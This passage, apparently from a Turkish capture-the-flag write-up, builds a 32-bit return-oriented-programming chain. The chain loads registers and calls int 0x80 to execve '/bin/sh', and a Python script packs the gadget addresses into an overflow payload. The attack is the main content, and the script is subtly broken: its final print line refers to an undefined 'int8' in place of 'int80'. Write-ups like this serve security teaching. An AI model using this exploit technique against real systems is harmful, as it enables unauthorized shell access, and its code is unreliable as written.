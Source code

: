 Sonra final olarak int 80 yapınca durumu kurtarıyoruz. 

Herşeyi tolayalım:

```bash
edi = 0x805c86d            
# EDI’e EAX’ı atıyoruz. Herhangi bir registera bişey olmuyor 

edx = 0x80ac592 + "JUNK" * 4    
# EDI’yi EDX’e atıyoruz, ama 4 tane pop var “JUNK” lazım

edx += 0x809df07 + 0x80bd7de + "JUNK"
# Burda 0x14 offset yazıyoruz ama EAX’ı NUL yapmamız lazım o yüzden önce XOR

xor_ecx = 0x8049713 + "JUNK" * 4
# EAX ve EBX etkilendiği için burda yapmamız daha mantıklı olur. Aynı zamanda 4 tane “JUNK” lazım

ebx = 0x809df07 + 0x8071b85
# Burda EBX’e nihayet atıyoruz ama önce cmp var ne olur ne olmaz EAX’ı sıfır yapalım da Above Equal olmasın

xor_edx = 0x80bc1c6 + 0x808fc9e
# EDX’i burdan sıfırlayalım. 

eax =  0x809df07 + 0x8092be0 + 0x8092b60 + 0x8092b50
# Burda EAX’ı nihayet 11 yapıyoruz. 

int = 0x80730e0
# Sonunda int 0x80
```

Bize lazım olan şey başında 14 tane / sonra bin/sh ve devamında ise 128 pattern lazım. 

```python
#!/usr/bin/env python
shell = "/" * 14
shell += "bin/sh"

nop = "A"*128

edi = "\x6d\xc8\x05\x08"
edx = "\x92\xc5\x0a\x08" + "JUNK" * 4
edx += "\x07\xdf\x09\x08" + "\xde\xd7\x0b\x08" + "JUNK"
xor_ecx = "\x13\x97\x04\x08" + "JUNK" * 4
ebx = "\x07\xdf\x09\x08" + "\x85\x1b\x07\x08"
xor_edx = "\xc6\xc1\x0b\x08" + "\x9e\xfc\x08\x08"
eax = "\x07\xdf\x09\x08" + "\xe0\x2b\x09\x08" + "\x60\x2b\x09\x08" + "\x50\x2b\x09\x08"
int80 = "\xe0\x30\x07\x08"

print shell + nop + edi + edx + xor_ecx + ebx + xor_edx + eax + int8
```
![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Ezz/screenshots/9.png)
